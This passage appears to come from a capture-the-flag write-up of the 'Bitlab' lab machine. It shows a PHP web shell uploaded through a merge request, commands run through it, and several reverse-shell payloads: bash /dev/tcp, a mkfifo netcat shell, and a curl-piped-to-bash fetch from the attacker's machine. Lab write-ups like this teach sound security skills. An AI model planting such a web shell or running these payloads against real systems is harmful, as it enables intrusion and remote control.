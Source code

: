 The next thing I have to do is to upload a malicious file that allows me to execute commands, using the **URL** and a parameter whose name I have to declare in the file itself. After performing the steps I did with the test file, I can now execute commands remotely and enumerate the system to learn more about the target. To obtain a **[Reverse Shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet){:target="_blank"}**, I first verify the connectivity to my attacking machine (in case there are **IPTables rules** or a possible **Firewall**) and once I have verified that all the requirements are met, I can try to access the machine. The only thing I have to do, is to create an **index.html** file with the malicious code, configure a local server with `python` to make it accessible and from the browser access the content of it with `curl`, but using **pipe** I can succeed in interpreting the malicious command. I already succeed in accessing the machine through the connection received on port **443** opened beforehand with `nc`.

> **Malicious Code**:

```php
<?php
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

```bash
# http://10.10.10.114/root/profile
# --> Commit changes --> Submit merge request --> Merge :)

# http://10.10.10.114/profile/oldb0y_shell.php?cmd=whoami
# http://10.10.10.114/profile/oldb0y_shell.php?cmd=hostname
# http://10.10.10.114/profile/oldb0y_shell.php?cmd=ifconfig

tcpdump -i tun0 icmp -n
# http://10.10.10.114/profile/oldb0y_shell.php?cmd=ping%20-c%204%2010.10.14.20

nc -nlvp 443
# http://10.10.10.114/profile/oldb0y_shell.php?cmd=bash%20-c%20%27bash%20-i%20%3E&/dev/tcp/10.10.14.20/443%200%3E&1%27

# http://10.10.10.114/profile/oldb0y_shell.php?cmd=bash -i >&/dev/tcp/10.10.14.20/443 0>&1
# http://10.10.10.114/profile/oldb0y_shell.php?cmd=bash -c 'bash -i >&/dev/tcp/10.10.14.20/443 0>&1'
# http://10.10.10.114/profile/oldb0y_shell.php?cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.20 443 >/tmp/f
# :(

nvim index.html
cat !$
python3 -m http.server 80
nc -nlvp 443
# http://10.10.10.114/profile/oldb0y_shell.php?cmd=curl%2010.10.14.20%20|%20bash
```

<br />
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_30.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bitlab_writeup/Bitlab_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />